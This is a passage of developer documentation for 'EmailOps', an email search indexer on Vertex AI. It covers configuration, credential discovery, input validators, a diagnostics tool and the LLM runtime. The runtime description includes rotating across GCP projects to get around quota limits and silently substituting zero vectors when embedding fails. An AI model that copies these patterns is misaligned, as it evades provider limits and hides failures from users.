    for cred_file in self.CREDENTIAL_FILES_PRIORITY:
        cred_path = secrets_dir / cred_file
        if cred_path.exists():
            # Validate it's a proper service account JSON
            with cred_path.open() as f:
                data = json.load(f)
                if "project_id" in data and "client_email" in data:
                    return cred_path
```

**Environment Propagation:**
```python
# emailops/config.py:132-156
def update_environment(self) -> None:
    """Update os.environ with configuration values"""
    os.environ["INDEX_DIRNAME"] = self.INDEX_DIRNAME
    os.environ["CHUNK_SIZE"] = str(self.DEFAULT_CHUNK_SIZE)
    os.environ["CHUNK_OVERLAP"] = str(self.DEFAULT_CHUNK_OVERLAP)
    os.environ["EMBED_BATCH"] = str(self.DEFAULT_BATCH_SIZE)
    os.environ["EMBED_PROVIDER"] = self.EMBED_PROVIDER
    os.environ["VERTEX_EMBED_MODEL"] = self.VERTEX_EMBED_MODEL
    os.environ["GCP_REGION"] = self.GCP_REGION
    os.environ["VERTEX_LOCATION"] = self.VERTEX_LOCATION
    
    if self.GCP_PROJECT:
        os.environ["GCP_PROJECT"] = self.GCP_PROJECT
        os.environ["GOOGLE_CLOUD_PROJECT"] = self.GCP_PROJECT
        os.environ["VERTEX_PROJECT"] = self.GCP_PROJECT
    
    # Set credentials if found
    cred_file = self.get_credential_file()
    if cred_file:
        os.environ["GOOGLE_APPLICATION_CREDENTIALS"] = str(cred_file)
```

---

## 8) Text Extraction & Cleaning

### Implementation Status: ✅ VERIFIED

**Robust Extraction:**
```python
# emailops/utils.py:244-479
def extract_text(path: Path, *, max_chars: int | None = None) -> str:
    """
    Extract text from supported file types with robust error handling.
    Supports: .txt, .pdf, .docx, .doc, .xlsx, .xls, .pptx, .ppt,
              .rtf, .eml, .msg, .html, .xml, .md, .json, .yaml, .csv
    """
```

**Format Coverage:**
- Plain text: UTF-8-sig → UTF-8 → UTF-16 → latin-1 fallback
- PDF: pypdf with per-page extraction, empty-password decryption attempt
- Word: python-docx (.docx), win32com or textract (.doc)
- Excel: pandas with engine auto-detection, cell count caps
- PowerPoint: python-pptx for slide text
- Email: stdlib email parser (.eml), extract-msg (.msg)
- RTF: striprtf library
- HTML/XML: BeautifulSoup or regex fallback

**Email Cleaning:**
```python
# emailops/utils.py:516-565
def clean_email_text(text: str) -> str:
    """
    Conservative cleaning for indexing:
    - Removes headers (From/To/Subject)
    - Strips signatures/footers (last ~2k chars only)
    - Removes forwarding separators and quoted lines
    - Redacts emails → [email@domain]
    - Redacts URLs → [URL]
    - Normalizes whitespace/punctuation
    """
```

---

## 9) Validation & Path Security

### Implementation Status: ✅ VERIFIED

**Path Validation:**
```python
# emailops/validators.py:12-58
def validate_directory_path(path, must_exist=True, allow_parent_traversal=False):
    """
    Security checks:
    - Blocks '..' traversal by inspecting Path.parts
    - Expands ~ and resolves to absolute canonical path
    - Verifies existence and directory type
    """
```

```python
# emailops/validators.py:60-115
def validate_file_path(path, must_exist=True, allowed_extensions=None, 
                      allow_parent_traversal=False):
    """
    Security checks:
    - Same traversal protections as directories
    - Optional extension allow-list
    - Verifies file type when it exists
    """
```

**Command Validation:**
```python
# emailops/validators.py:144-177
def validate_command_args(command, args, allowed_commands=None):
    """
    Prevents injection:
    - Optional command whitelist
    - Rejects dangerous chars: ; | & $ ` \n \r
    - Detects null bytes
    """
```

---

## 10) Documentation Alignment

### Created/Updated Files:

✅ **[`email_indexer.md`](email_indexer.md)** — Comprehensive Vertex-only indexer documentation  
✅ **[`index_metadata.md`](index_metadata.md)** — Metadata manager specification  
✅ **[`utils.md`](utils.md)** — Text extraction and email utilities  
✅ **[`validators.md`](validators.md)** — Security validation helpers  

### Documentation Coverage:

| Topic | Document | Status |
|-------|----------|--------|
| CLI usage & arguments | [`email_indexer.md`](email_indexer.md#8-cli) | ✅ Complete |
| Update strategies | [`email_indexer.md`](email_indexer.md#3-update-strategies) | ✅ Complete |
| Credential initialization | [`email_indexer.md`](email_indexer.md#4-credential--config-initialization) | ✅ Complete |
| Corpus construction | [`email_indexer.md`](email_indexer.md#5-corpus-construction) | ✅ Complete |
| Embedding generation | [`email_indexer.md`](email_indexer.md#6-embedding-generation-vertex-only) | ✅ Complete |
| Persistence & metadata | [`email_indexer.md`](email_indexer.md#7-persistence--metadata) | ✅ Complete |
| Configuration & env vars | [`email_indexer.md`](email_indexer.md#9-configuration--environment) | ✅ Complete |
| Provider & model handling | [`index_metadata.md`](index_metadata.md#2-provider--model-vertex) | ✅ Complete |
| Validation & consistency | [`index_metadata.md`](index_metadata.md#4-validation--consistency) | ✅ Complete |
| Text extraction formats | [`utils.md`](utils.md#1-extraction) | ✅ Complete |
| Email cleaning | [`utils.md`](utils.md#2-email-cleaning--parsing) | ✅ Complete |
| Path security | [`validators.md`](validators.md#1-paths) | ✅ Complete |

---

## 11) Environment Variables

### Verified Alignment:

| Variable | Default | Module | Purpose |
|----------|---------|--------|---------|
| `INDEX_DIRNAME` | `_index` | config.py | Index directory name |
| `CHUNK_SIZE` | `1600` | config.py | Characters per chunk |
| `CHUNK_OVERLAP` | `200` | config.py | Overlap between chunks |
| `EMBED_BATCH` | `64` | config.py | Embedding batch size (≤250) |
| `EMBED_PROVIDER` | `vertex` | config.py | Provider (constrained) |
| `VERTEX_EMBED_MODEL` | `gemini-embedding-001` | config.py | Vertex model name |
| `VERTEX_OUTPUT_DIM` | — | index_metadata.py | Override output dims |
| `VERTEX_EMBED_DIM` | — | index_metadata.py | Alt override (deprecated) |
| `MAX_INDEXABLE_FILE_MB` | `50` | email_indexer.py | Skip files larger than |
| `MAX_INDEXABLE_CHARS` | `5000000` | email_indexer.py | Truncate text longer than |
| `GCP_PROJECT` | — | config.py | GCP project ID |
| `GCP_REGION` | `us-central1` | config.py | GCP region |
| `VERTEX_LOCATION` | `us-central1` | config.py | Vertex location |
| `GOOGLE_APPLICATION_CREDENTIALS` | — | config.py | Service account JSON |
| `HALF_LIFE_DAYS` | `30` | index_metadata.py | Recency decay period |

---

## 12) Key Architectural Decisions

### 12.1 Single Provider (Vertex)

**Rationale:**
- Simplifies codebase and reduces complexity
- Leverages Google's latest Gemini embeddings (3072 dims)
- Centralized credential management for GCP
- Consistent dimension handling across runs

**Implementation Points:**
- CLI constrains `--provider` to `["vertex"]`
- Model override maps to `VERTEX_EMBED_MODEL`
- Dimension inference handles Gemini (3072) and legacy text-embedding models (768)
- Provider normalization accepts common aliases

### 12.2 Incremental Build Strategy

**Rationale:**
- Minimizes re-embedding costs for large corpora
- Handles adds/edits/deletes correctly
- Preserves unchanged vectors via deterministic IDs

**Three-Tier Approach:**
1. **Precise** (`file_times.json`) — Safest, handles deletions
2. **Timestamp** (`last_run.txt`) — Fallback when file_times unavailable
3. **Full** (`--force-reindex`) — Clean slate or schema changes

### 12.3 Atomic Persistence

**Rationale:**
- Prevents partial writes on crashes/interrupts
- Ensures index consistency across concurrent access
- Windows/NFS file lock resilience

**Implementation:**
- Temp file → fsync → atomic replace pattern
- Retry logic for Windows file locks (6 attempts with backoff)
- Post-save consistency validation

---

## Part 2: Configuration & Environment

### config.py.md

# `config.py` - Centralized Configuration Management

## 1. Overview

This module provides a centralized system for managing all configuration settings for the EmailOps application. It uses a `dataclass` to define all parameters, loads values from environment variables with sensible defaults, and provides utilities for credential discovery and environment propagation.

**Key Features:**
- **Centralized Configuration**: A single `EmailOpsConfig` dataclass holds all settings.
- **Environment-driven**: Loads configuration from environment variables.
- **Singleton Pattern**: `get_config()` ensures a single configuration instance globally.
- **Credential Auto-Discovery**: Automatically finds and validates GCP service account credentials.
- **Dynamic Environment Updates**: Propagates settings to child processes.

---

## 2. The `EmailOpsConfig` Dataclass

This is the core of the configuration system, defining all configurable parameters.

### 2.1 Dataclass Schema

```python
@dataclass
class EmailOpsConfig:
    # Directory names
    INDEX_DIRNAME: str
    CHUNK_DIRNAME: str

    # Processing defaults
    DEFAULT_CHUNK_SIZE: int
    DEFAULT_CHUNK_OVERLAP: int
    DEFAULT_BATCH_SIZE: int
    DEFAULT_NUM_WORKERS: int

    # Embedding provider settings
    EMBED_PROVIDER: str
    VERTEX_EMBED_MODEL: str

    # GCP settings
    GCP_PROJECT: str | None
    GCP_REGION: str
    VERTEX_LOCATION: str

    # Paths
    SECRETS_DIR: Path
    GOOGLE_APPLICATION_CREDENTIALS: str | None

    # File patterns
    ALLOWED_FILE_PATTERNS: list[str]

    # Credential management
    CREDENTIAL_FILES_PRIORITY: list[str]

    # Security settings
    ALLOW_PARENT_TRAVERSAL: bool
    COMMAND_TIMEOUT_SECONDS: int

    # Logging and Monitoring
    LOG_LEVEL: str
    ACTIVE_WINDOW_SECONDS: int

    # Email settings
    SENDER_LOCKED_NAME: str
    SENDER_LOCKED_EMAIL: str
    MESSAGE_ID_DOMAIN: str
```

### 2.2 Configuration Parameters

| Parameter | Environment Variable | Default | Description |
|---|---|---|---|
| `INDEX_DIRNAME` | `INDEX_DIRNAME` | `_index` | Name of the directory to store the search index. |
| `CHUNK_DIRNAME` | `CHUNK_DIRNAME` | `_chunks` | Name of the directory to store processed text chunks. |
| `DEFAULT_CHUNK_SIZE` | `CHUNK_SIZE` | `1500` | Target size of each text chunk in characters. |
| `DEFAULT_CHUNK_OVERLAP` | `CHUNK_OVERLAP` | `150` | Number of characters to overlap between chunks. |
| `DEFAULT_BATCH_SIZE` | `EMBED_BATCH` | `128` | Batch size for embedding generation. |
| `DEFAULT_NUM_WORKERS` | `NUM_WORKERS` | CPU count (or 4) | Default number of parallel workers for processing. |
| `EMBED_PROVIDER` | `EMBED_PROVIDER` | `vertex` | The embedding provider to use (e.g., 'vertex'). |
| `VERTEX_EMBED_MODEL` | `VERTEX_EMBED_MODEL` | `gemini-embedding-001` | The specific Vertex AI embedding model. |
| `GCP_PROJECT` | `GCP_PROJECT` | `None` | Google Cloud project ID. |
| `GCP_REGION` | `GCP_REGION` | `us-central1` | Google Cloud region. |
| `VERTEX_LOCATION` | `VERTEX_LOCATION` | `us-central1` | Location for Vertex AI resources. |
| `SECRETS_DIR` | `SECRETS_DIR` | `/secrets` | Directory to search for credential files. |
| `GOOGLE_APPLICATION_CREDENTIALS` | `GOOGLE_APPLICATION_CREDENTIALS` | `None` | Path to the GCP service account JSON file. |
| `ALLOWED_FILE_PATTERNS` | - | `["*.txt", "*.pdf", ...]` | Glob patterns for allowed attachment file types. |
| `CREDENTIAL_FILES_PRIORITY` | - | `[]` | Sorted list of credential files found in `SECRETS_DIR`. |
| `ALLOW_PARENT_TRAVERSAL` | `ALLOW_PARENT_TRAVERSAL` | `False` | If `True`, allows '..' in file paths (security risk). |
| `COMMAND_TIMEOUT_SECONDS` | `COMMAND_TIMEOUT` | `3600` | Timeout for external command execution. |
| `LOG_LEVEL` | `LOG_LEVEL` | `INFO` | Logging level for the application. |
| `ACTIVE_WINDOW_SECONDS` | `ACTIVE_WINDOW_SECONDS` | `120` | Time window for monitoring active operations. |
| `SENDER_LOCKED_NAME` | `SENDER_LOCKED_NAME` | `""` | Default sender name for outgoing emails. |
| `SENDER_LOCKED_EMAIL` | `SENDER_LOCKED_EMAIL` | `""` | Default sender email address. |
| `MESSAGE_ID_DOMAIN` | `MESSAGE_ID_DOMAIN` | `""` | Domain used for generating unique Message-IDs. |

---

## 3. Core Functions

### 3.1 Configuration Loading

#### `get_config() -> EmailOpsConfig`
This function implements the singleton pattern. It returns the global `EmailOpsConfig` instance, creating it if it doesn't exist.

**Workflow:**
```mermaid
graph TD
    A[Call get_config()] --> B{Is global _config None?};
    B -- Yes --> C[EmailOpsConfig.load() is called];
    C --> D[New config instance created];
    D --> E[Set as global _config];
    E --> F[Return instance];
    B -- No --> F;
```

#### `EmailOpsConfig.load() -> EmailOpsConfig`
A class method that creates a new instance of `EmailOpsConfig`, loading all values from environment variables or their defaults.

### 3.2 Credential Discovery and Validation

This is a critical feature for simplifying deployment. The system automatically finds and validates GCP credentials.

#### `_is_valid_service_account_json(p: Path) -> bool`
A static method that performs strict validation on a JSON file to ensure it is a valid GCP service account key.

**Validation Checks:**
1.  **Structure**: Must be a dictionary containing required keys (`type`, `project_id`, `private_key`, etc.).
2.  **Type**: The `type` field must be `"service_account"`.
3.  **Private Key**: Must start and end with the correct PEM block markers.
4.  **Key ID**: Must be a hex string of a minimum length.
5.  **Email Format**: Must be a valid service account email format (e.g., `...@...iam.gserviceaccount.com`).
6.  **Project ID**: Must meet GCP's length and character requirements.
7.  **Token Validity** (if `google-auth` is installed):
    - Attempts to create a credentials object.
    - Checks if the credentials have expired.

#### `get_credential_file() -> Path | None`
This method finds a valid credential file by searching in a specific order of priority.

**Search Order:**
1.  **Environment Variable**: Checks if `GOOGLE_APPLICATION_CREDENTIALS` is set and points to a valid file.
2.  **Secrets Directory**: Searches the `SECRETS_DIR` for JSON files, sorted by the `CREDENTIAL_FILES_PRIORITY` list. The first valid file found is returned.

### 3.3 Environment Propagation

#### `update_environment() -> None`
This method updates the current process's environment variables (`os.environ`) with the values from the `EmailOpsConfig` instance.

**Purpose:**
- Ensures that child processes (e.g., subprocesses, parallel workers) inherit the correct configuration.
- Derives the `GCP_PROJECT` from the selected service account file if it's not already set.

---

## 4. Usage

The configuration is accessed throughout the application via the `get_config()` function.

```python
from emailops.config import get_config

# Get the global configuration instance
config = get_config()

# Access configuration values
chunk_size = config.DEFAULT_CHUNK_SIZE
gcp_project = config.GCP_PROJECT

# The configuration is automatically loaded on first call
# and reused on subsequent calls.
```

### doctor.py.corrected.md

# `doctor.py` - System Diagnostics and Setup

## 1. Overview

`doctor.py` is a command-line utility designed to diagnose the health of the EmailOps environment. It acts as a "first aid" tool to verify dependencies, check the integrity of the search index, and test core functionalities like embeddings. It can even automatically install missing packages.

This tool is essential for ensuring a smooth and error-free experience when using the EmailOps application.

## 2. Dependencies

This module depends on:
- **`index_metadata` module**: Used for reading index mappings and loading index metadata
- **External packages**: Various embedding providers and document extractors (see Provider-Specific Dependencies section)

## 3. Core Workflows

The doctor script performs three main tasks, which can be run together or separately.

### 3.1. Dependency Check & Installation

This is the primary workflow. It intelligently checks for required and optional Python packages based on the configured embedding provider.

```mermaid
graph TD
    A[Start doctor.py] --> B[Get configured provider (e.g., 'vertex')];
    B --> C[Identify critical & optional packages for this provider];
    C --> D{Check for missing critical packages};
    D -- Missing --> E{auto-install enabled?};
    E -- Yes --> F[Attempt 'pip install' for missing criticals];
    F --> G{Install successful?};
    G -- Yes --> H[Proceed];
    G -- No --> I[Log error and exit];
    E -- No --> J[Log error with manual install instructions];
    D -- All Present --> H;
    H --> K{Check for missing optional packages};
    K -- Missing --> L{auto-install enabled?};
    L -- Yes --> M[Attempt 'pip install' for missing optionals];
    L -- No --> N[Log warning with manual install instructions];
    K -- All Present --> O[All dependency checks complete];
    M --> O;
    N --> O;
    J --> O;
```

### 3.2. Index Health Check (`--check-index`)

If the `--check-index` flag is used, the script inspects the search index directory (`_index`) using functions from the `index_metadata` module.

```mermaid
graph TD
    A[Start Index Check] --> B{Does _index directory exist?};
    B -- No --> C[Skip check];
    B -- Yes --> D[Load index metadata via index_metadata.load_index_metadata()];
    D --> E[Load mapping via index_metadata.read_mapping()];
    E --> F[Calculate statistics (e.g., num documents, num conversations)];
    F --> G[Display statistics];
    G --> H[Check for provider compatibility];
    H --> I{Is index provider same as current provider?};
    I -- Yes --> J[Log 'Compatibility: OK'];
    I -- No --> K[Log 'Compatibility: FAIL' with warning];
```

### 3.3. Embedding Probe (`--check-embeddings`)

If the `--check-embeddings` flag is used, the script performs a live test of the embedding service.

```mermaid
graph TD
    A[Start Embedding Probe] --> B[Import embed_texts function from llm_client];
    B --> C[Send a sample text ("test") to the embedding API];
    C --> D{Did the API call succeed?};
    D -- Yes --> E[Get embedding dimension from the result];
    E --> F[Log 'Success' with dimension];
    D -- No --> G[Log 'Failed' with error message];
```

## 4. Key Logic Details

### Provider-Specific Dependencies

The script is smart about dependencies. It knows which packages are needed for each provider, reducing unnecessary installations. In addition to the provider-specific optional packages, a set of common packages are always considered optional (`numpy`, `faiss-cpu`, `pypdf`, `python-docx`, `pandas`, `openpyxl`).

| Provider | Critical Packages | Optional Packages |
|---|---|---|
| `vertex` | `google-genai`, `google-cloud-aiplatform` | `google-auth`, `google-cloud-storage` |
| `openai` | `openai` | `tiktoken` |
| `azure` | `openai` | `azure-identity` |
| `cohere` | `cohere` | - |
| `huggingface` | `huggingface_hub` | - |
| `qwen` | `requests` | - |
| `local` | `sentence-transformers` | `torch`, `transformers` |

### Safe Import Checking

It uses `importlib.import_module` inside a `try...except` block to safely check if a library is installed without terminating the script if it's not found.

To handle cases where the package name installed by `pip` differs from the name used for import (e.g., `faiss-cpu` is imported as `faiss`), the script uses a mapping dictionary called `_PKG_IMPORT_MAP`. This ensures that the check is accurate.

### Helper Functions

The module includes several internal helper functions not exposed in the CLI:

- **`_load_mapping(index_dir: Path)`**: Loads the index mapping from the specified directory using `index_metadata.read_mapping()`
- **`_get_index_statistics(index_dir: Path)`**: Calculates statistics about the index including document count, conversation count, and total characters
- **`_summarize_index_compat(index_dir: Path, provider: str)`**: Checks if the index was built with the same provider currently configured
- **`_probe_embeddings(provider: str)`**: Tests the embedding functionality by generating a test embedding

## 5. CLI Usage

You can run the doctor script from your terminal.

**Command-line Arguments:**

| Argument | Description | Default |
|---|---|---|
| `--root` | The project root directory. | `.` |
| `--provider` | The embedding provider to check against. | `vertex` |
| `--auto-install` | If set, automatically `pip install` missing packages. | `False` |
| `--check-index` | If set, runs the index health check. | `False` |
| `--check-embeddings` | If set, runs the embedding probe. | `False` |

**Examples:**

```bash
# Run a full check for the vertex provider and auto-install packages
python -m emailops.doctor --provider vertex --auto-install --check-index --check-embeddings

# Check for openai dependencies without installing
python -m emailops.doctor --provider openai

# Only check the index health
python -m emailops.doctor --check-index
```

## 6. Constants and Configuration

The module defines several constants:

- **`INDEX_DIRNAME_DEFAULT`**: Default index directory name from environment variable or `"_index"`
- **`REPO_ROOT`**: Path to the repository root directory (parent of the emailops package)
- **`_PKG_IMPORT_MAP`**: Dictionary mapping package names to their import names

## 7. Developer Notes

- The module uses a library-safe logger: `logging.getLogger("emailops.doctor")`
- Timeouts for package installation are set to 300 seconds
- The module gracefully handles missing `index_metadata` module imports
- All functions that interact with the index handle exceptions gracefully to prevent crashes

### env_utils.py.md

# `env_utils.py` - Compatibility Shim

## 1. Overview

This file serves as a **compatibility shim**. Its sole purpose is to maintain backward compatibility for older parts of the codebase that might still refer to it.

**It contains no original logic.**

Instead, it imports and re-exports selected functions and classes from the `emailops.llm_runtime` module. This is a common software engineering pattern used during refactoring to avoid breaking existing code.

## 2. Workflow: Redirection

The workflow of this module is a simple redirection. Any code that imports from `env_utils` is actually getting objects from `llm_runtime`.



## 3. Re-exported Symbols

The following symbols are re-exported from `llm_runtime.py`:

-   `LLMError`
-   `VertexAccount`
-   `load_validated_accounts`
-   `save_validated_accounts`
-   `validate_account`
-   `DEFAULT_ACCOUNTS`
-   `_init_vertex`
-   `reset_vertex_init`

## 4. Developer Guidance

If you need to understand or modify the logic for any of the functions or classes listed above, you should not edit `env_utils.py`.

**==> Look for the implementation in `emailops/llm_runtime.py`.**

---

## Part 3: Core LLM Runtime

### llm_runtime.py.corrected.md

# `llm_runtime.py` - The Core LLM and Embedding Engine

## 1. Overview

This script is the heart of the EmailOps application's AI capabilities. It consolidates all the logic for interacting with various Language Model (LLM) providers, generating text and JSON, and creating embeddings. It replaces the older, split logic from `llm_client.py` and `env_utils.py` with a unified, robust, and resilient runtime.

Its key features include:
-   **Multi-provider support** for embeddings.
-   **Automatic project rotation** to handle API quota limits.
-   **Resilient API calls** with exponential backoff and retries.
-   **Robust JSON generation** with a text-based fallback.
-   **Intelligent account validation** and credential discovery.
-   **Thread-safe project rotation** with locking mechanisms.

---

## 2. Global State and Configuration

### 2.1. Global State Variables

The module maintains several global state variables for efficient operation:

```python
_validated_accounts: list[VertexAccount] | None = None  # Caches validated accounts
_vertex_initialized: bool = False                       # Tracks Vertex AI initialization
_PROJECT_ROTATION: dict[str, Any] = {                  # Project rotation state
    "projects": [],           # List of project configurations
    "current_index": 0,       # Current project index
    "consecutive_errors": 0,  # Error counter
    "_initialized": False,    # Initialization flag
}
_PROJECT_ROTATION_LOCK = threading.Lock()              # Thread-safe rotation
```

### 2.2. Constants and Configuration

- **`RETRYABLE_SUBSTRINGS`**: Tuple of error substrings that trigger retry logic
  - "quota exceeded", "resource_exhausted", "429", "temporarily unavailable"
  - "rate limit", "deadline exceeded", "unavailable", "internal error", "503"
- **Environment Loading**: Attempts to load `.env` file using `python-dotenv` if available
- **Google API Core**: Imports `google.api_core.exceptions` for better error classification

---

## 3. Account Management and Initialization

The runtime begins by ensuring it has valid Google Cloud credentials and that the Vertex AI SDK is correctly initialized.

### 3.1. Loading Validated Accounts

The `load_validated_accounts` function provides a robust way to find and verify GCP account credentials.

```mermaid
graph TD
    A[Start load_validated_accounts] --> B{Does validated_accounts.json exist?};
    B -- Yes --> C[Load accounts from JSON file];
    B -- No --> D{Are default_accounts provided?};
    D -- Yes --> E[Load hard-coded default accounts];
    D -- No --> F[Initialize with empty list];
    C --> G[Loop through each account];
    E --> G;
    F --> G;

    subgraph "For Each Account"
        G --> H{Is credential path absolute?};
        H -- No --> I[Check for credential file in multiple locations];
        I --> J{File found?};
        J -- Yes --> K[Update path to be absolute];
        J -- No --> L[Mark account as invalid, log warning];
        H -- Yes --> M{Does credential file exist?};
        M -- Yes --> N[Keep account];
        M -- No --> L;
    end

    L --> O[Continue to next account];
    K --> N;
    N --> O;
    O -- All accounts checked --> P{Any valid accounts found?};
    P -- Yes --> Q[Return list of valid accounts & cache in _validated_accounts];
    P -- No --> R[Raise LLMError: "No valid GCP accounts found"];
```

The function checks these locations for credential files:
1. Project root / credentials_path
2. Project root / secrets / filename
3. As given (relative path)

### 3.2. Initializing Vertex AI (`_init_vertex`)

This function, called before any Vertex AI operation, configures the connection. It's idempotent, meaning it only runs once until reset.

1.  **Check if Already Initialized**: If `_vertex_initialized` is True, return immediately
2.  **Find Project ID**: Searches environment variables in order:
    - `VERTEX_PROJECT`
    - `GCP_PROJECT` 
    - `GOOGLE_CLOUD_PROJECT`
3.  **Find Credentials**: Searches environment variables:
    - `VERTEX_SERVICE_ACCOUNT_JSON`
    - `GOOGLE_APPLICATION_CREDENTIALS`
4.  **Initialize `vertexai`**:
    - If credential file exists: Use service account credentials
    - If path set but file missing: Log warning, use Application Default Credentials
    - If no path: Use Application Default Credentials
5.  **Mark as Initialized**: Set `_vertex_initialized = True`

---

## 4. Resilience: Project Rotation and Retries

The runtime is built to withstand transient errors and API quota limits.

### 4.1. Automatic Project Rotation

This is a key feature for high-throughput use cases. When the application hits a quota limit on one GCP project, it automatically switches to another.

```mermaid
graph TD
    A[API call to Vertex AI] --> B[Sends request];
    B --> C{Receive API Error};
    C --> D{Is it a quota error via _should_rotate_on()?};
    D -- Yes --> E[_rotate_to_next_project() is called];
    E --> F[Acquire _PROJECT_ROTATION_LOCK];
    F --> G[Select next project from the list];
    G --> H[Update environment variables];
    H --> I[Reset Vertex AI initialization state];
    I --> J[Release lock];
    J --> K[Retry the original API call on the new project];
    D -- No --> L[Handle as a different error];
```

Key implementation details:
- **Thread-safe**: Uses `_PROJECT_ROTATION_LOCK` for concurrent access
- **Lazy loading**: Projects loaded on first rotation via `_ensure_projects_loaded()`
- **Environment updates**: Sets `GCP_PROJECT`, `GOOGLE_CLOUD_PROJECT`, `GOOGLE_APPLICATION_CREDENTIALS`

### 4.2. Retry with Exponential Backoff

For other transient errors (like "503 Service Unavailable"), the runtime will wait and try again.

1.  An API call is made
2.  If it fails, `_is_retryable_error()` checks:
     - Google API core exception types (if available)
     - Error message against `RETRYABLE_SUBSTRINGS`
3.  If retryable, `_sleep_with_backoff()` calculates delay:
     - Base delay * 2^(attempt-1)
     - Capped at max_delay
     - Plus 0-20% random jitter
4.  Retry up to `VERTEX_MAX_RETRIES` attempts (default: 5)

---

## 5. LLM Completion API

### 5.1. `complete_text`

Generates text from system and user prompts with full resilience logic.

**Workflow:**
1. Initialize Vertex if needed via `_init_vertex()`
2. Create model via `_vertex_model()` helper
3. Attempt generation with retry loop:
   - Success: Return stripped text
   - Quota error: Rotate project and retry
   - Retryable error: Sleep with backoff and retry
   - Other error: Raise `LLMError`

**Helper Functions:**
- `_vertex_model()`: Creates `GenerativeModel` instance with system instruction
- `_normalize_model_alias()`: Handles model name aliases

### 5.2. `complete_json` (Robust JSON Generation)

Designed to reliably return JSON, even if the model fails to adhere perfectly.

```mermaid
graph TD
    A[Call complete_json] --> B[Attempt Vertex AI JSON Mode];
    B --> C{Success?};
    C -- Yes --> D[Return JSON string];
    C -- No --> E{Retryable error?};
    E -- Yes --> F[Sleep & retry];
    F --> B;
    E -- No --> G[Log warning];
    G --> H[Fall back to complete_text()];
    H --> I[Get plain text output];
    I --> J[_extract_json_from_text()];
    J --> K[Return extracted JSON or '{}'];
```

**JSON Extraction (`_extract_json_from_text`):**
1. Look for markdown JSON code blocks (` ```json ... ``` `)
2. Check if entire response is valid JSON
3. Use regex to find JSON object anywhere in text
4. Return '{}' if no JSON found

---

## 6. Multi-Provider Embedding API

### 6.1. `embed_texts` Dispatcher

Single entry point for creating embeddings, routing to the correct provider.



**Common Features:**
- Returns `numpy.ndarray` of shape (N, D)
- All vectors are unit-normalized via `_normalize()` helper
- Empty input returns empty array: `np.zeros((0, 0), dtype="float32")`
- Batch processing for efficiency

### 6.2. Provider Implementations

| Provider | Required Environment Variables | Default Model | Batch Size |
|---|---|---|---|
| **vertex** | `GCP_PROJECT`, `GOOGLE_APPLICATION_CREDENTIALS` | `gemini-embedding-001` | 64 (max 250) |
| **openai** | `OPENAI_API_KEY` | `text-embedding-3-small` | 100 |
| **azure** | `AZURE_OPENAI_API_KEY`, `AZURE_OPENAI_ENDPOINT`, `AZURE_OPENAI_DEPLOYMENT` | (from env) | 100 |
| **cohere** | `COHERE_API_KEY` | `embed-english-v3.0` | 96 |
| **huggingface**| `HF_API_KEY` or `HUGGINGFACE_API_KEY` | `BAAI/bge-large-en-v1.5` | 1 |
| **qwen** | `QWEN_API_KEY`, `QWEN_BASE_URL` | `Qwen/Qwen3-Embedding-8B` | 50 |
| **local** | (None) | `sentence-transformers/all-MiniLM-L6-v2` | All at once |

### 6.3. Deep Dive: `_embed_vertex`

The most complex implementation, supporting two Google Cloud APIs with project rotation.



**Key Features:**
- Automatic fallback to zero vectors on persistent failures
- Per-batch project rotation for quota management
- Support for output dimensionality configuration (`VERTEX_EMBED_DIM`)
- Handles both paths with same resilience logic

---

## 7. Helper Functions

### 7.1. Vector Normalization
```python
def _normalize(vectors: list[list[float]]) -> np.ndarray:
    """Normalize vectors to unit length with numerical stability."""
    # Adds 1e-12 to prevent division by zero
    # Returns float32 array for memory efficiency
```

### 7.2. Model Management
- `_vertex_model()`: Creates GenerativeModel with optional system instruction
- `_normalize_model_alias()`: Maps deprecated names (e.g., "gemini-embedding-001" → "gemini-embedding-001")

### 7.3. Project Rotation Helpers
- `_ensure_projects_loaded()`: Thread-safe lazy loading of project list
- `_rotate_to_next_project()`: Cycles through available projects
- `reset_vertex_init()`: Clears initialization state for re-init

### 7.4. Error Classification
- `_is_retryable_error()`: Checks if error should trigger retry
- `_should_rotate_on()`: Checks if error indicates quota exhaustion
- `_sleep_with_backoff()`: Implements exponential backoff with jitter

---

## 8. Error Handling

### 8.1. Custom Exception
```python
class LLMError(Exception):
    """Custom exception for LLM- and embedding-related errors."""
```

### 8.2. Error Recovery Strategies
1. **Quota Errors**: Automatic project rotation
2. **Transient Errors**: Exponential backoff retry
3. **Persistent Errors**: 
   - Text generation: Raise `LLMError`
   - JSON generation: Fall back to text mode
   - Embeddings: Fill with zero vectors

---

## 9. Developer Notes

### Thread Safety
- Project rotation uses `threading.Lock` for concurrent access
- Global state variables protected by initialization checks

### Performance Optimizations
- Batch processing for embeddings (provider-specific limits)
- Singleton pattern for configuration loading
- Lazy initialization of projects and credentials

### External Dependencies
- **Required**: `numpy`, `google-cloud-aiplatform` (for Vertex)
- **Optional**: `python-dotenv`, `google.api_core.exceptions`
- **Provider-specific**: See provider table in section 6.2

### Environment Variables
Key environment variables used throughout:
- `VERTEX_MAX_RETRIES`: Max retry attempts (default: 5)
- `VERTEX_BACKOFF_INITIAL`: Initial backoff delay (default: 4)
- `VERTEX_BACKOFF_MAX`: Maximum backoff delay (default: 60)
- `VERTEX_MODEL`: Model name for text generation (default: "gemini-2.5-pro")
- `EMBED_BATCH`: Batch size for embeddings (provider-specific defaults)

### llm_client.py.corrected.md

# `llm_client.py` - Dynamic LLM Runtime Shim

## 1. Overview

Like `env_utils.py`, this file is a **compatibility shim**. However, it is more advanced and dynamic. Its purpose is to provide a stable, backward-compatible API for interacting with Large Language Models (LLMs), while transparently forwarding all requests to the modern, unified `llm_runtime.py` module.

It ensures that legacy code continues to work without modification, while also allowing new features from the runtime to be immediately accessible.

## 2. Core Mechanism: Dynamic Forwarding

This module uses Python's powerful `__getattr__` feature to dynamically handle attribute access. When you try to use a function from `llm_client`, it catches the request and forwards it to `llm_runtime`.

This means you can call any function from `llm_runtime` through `llm_client`, even if it's not explicitly defined here.

```mermaid
graph TD
    subgraph "Your Code"
        A[Call llm_client.some_function()]
    end

    subgraph "llm_client.py"
        B{Is some_function defined here?};
        B -- No --> C[__getattr__('some_function') is triggered];
        C --> D[Looks for 'some_function' in llm_runtime.py];
    end

    subgraph "llm_runtime.py"
        E[Provides the actual some_function]
    end

    A --> B;
    D --> E;
```

## 3. Internal Helper Functions

The module includes several internal helper functions that manage the dynamic forwarding:

### 3.1. `_rt_attr(name: str) -> Any`

A helper function that resolves attributes on the runtime module with consistent error messaging. If the attribute doesn't exist in `llm_runtime`, it raises an `AttributeError` with a clear message.

